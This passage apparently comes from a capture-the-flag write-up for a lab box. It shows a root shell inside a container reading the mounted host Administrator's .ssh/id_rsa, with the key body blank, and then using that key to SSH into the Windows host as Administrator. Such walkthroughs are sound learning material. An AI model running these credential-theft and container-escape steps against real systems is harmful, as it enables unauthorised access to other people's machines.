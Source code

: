 ```bash
dr-xr-xr-x    1 docker   staff            0 Apr  5  2021 Downloads
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Favorites
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Links
drwxrwxrwx    1 docker   staff         4096 Feb 18  2020 Local Settings
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Music
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 My Documents
-rwxrwxrwx    1 docker   staff       262144 Jan 11 15:13 NTUSER.DAT
-rwxrwxrwx    1 docker   staff        65536 Feb 18  2020 NTUSER.DAT{1651d10a-52b3-11ea-b3e9-000c29d8029c}.TM.blf
-rwxrwxrwx    1 docker   staff       524288 Feb 18  2020 NTUSER.DAT{1651d10a-52b3-11ea-b3e9-000c29d8029c}.TMContainer00000000000000000001.regtrans-ms
-rwxrwxrwx    1 docker   staff       524288 Feb 18  2020 NTUSER.DAT{1651d10a-52b3-11ea-b3e9-000c29d8029c}.TMContainer00000000000000000002.regtrans-ms
drwxrwxrwx    1 docker   staff            0 Sep 15  2018 NetHood
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Pictures
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Recent
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Saved Games
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Searches
dr-xr-xr-x    1 docker   staff            0 Sep 15  2018 SendTo
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Start Menu
drwxrwxrwx    1 docker   staff            0 Sep 15  2018 Templates
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Videos
-rwxrwxrwx    1 docker   staff        32768 Feb 18  2020 ntuser.dat.LOG1
-rwxrwxrwx    1 docker   staff        49152 Feb 18  2020 ntuser.dat.LOG2
-rwxrwxrwx    1 docker   staff           20 Feb 18  2020 ntuser.ini
```
If we check it, we can obtain the `id_rsa` of the administrator user:
```bash
root@box:/c/Users/Administrator# cd .ssh                                       
root@box:/c/Users/Administrator/.ssh# ls                                       
authorized_keys  id_rsa           id_rsa.pub       known_hosts
root@box:/c/Users/Administrator/.ssh# cat id_rsa                
-----BEGIN RSA PRIVATE KEY-----
-----END RSA PRIVATE KEY-----
```
So we can connect to the host machine with the administrator user:
```bash
❯ echo "-----BEGIN RSA PRIVATE KEY-----
-----END RSA PRIVATE KEY-----" > Results/id_rsa
❯ chmod 600 Results/id_rsa
❯ ssh Administrator@10.10.10.236 -i Results/id_rsa
Microsoft Windows [Version 10.0.17763.1039]
(c) 2018 Microsoft Corporation. All rights reserved.

administrator@TOOLBOX C:\Users\Administrator>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::15d
   IPv6 Address. . . . . . . . . . . : dead:beef::14b5:2e6f:429a:c35
   Link-local IPv6 Address . . . . . : fe80::14b5:2e6f:429a:c35%9
   IPv4 Address. . . . . . . . . . . : 10.10.10.236
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:8918%9
                                       10.10.10.2

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::3091:5918:fd6d:c615%4
```